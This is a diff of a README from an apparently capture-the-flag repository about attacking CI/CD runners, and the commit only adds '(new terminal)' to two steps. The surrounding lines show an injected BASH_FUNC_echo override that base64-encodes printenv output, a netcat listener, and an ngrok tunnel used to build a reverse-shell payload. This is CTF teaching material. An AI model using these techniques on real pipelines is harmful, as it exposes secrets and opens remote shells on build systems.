

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -167,11 +167,11 @@ BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
 ``` bash
 nc -lv 4444
 ```
-3. setup ngrok
+3. setup ngrok (new terminal)
 ``` bash
 ngrok tcp 4444
 ```
-4. Get ngrok IP to build payload
+4. Get ngrok IP to build payload (new terminal)
 ``` bash
 dig <NGROK_DNS>
 ```
@@ -202,11 +202,11 @@ The directory `/home/runner/work/_temp` look interesting...
 ``` bash
 nc -lv 4444
 ```
-3. setup ngrok
+3. setup ngrok (new terminal)
 ``` bash
 ngrok tcp 4444
 ```
-4. Get ngrok IP to build payload
+4. Get ngrok IP to build payload (new terminal)
 ``` bash
 dig <NGROK_DNS>
 ```
````
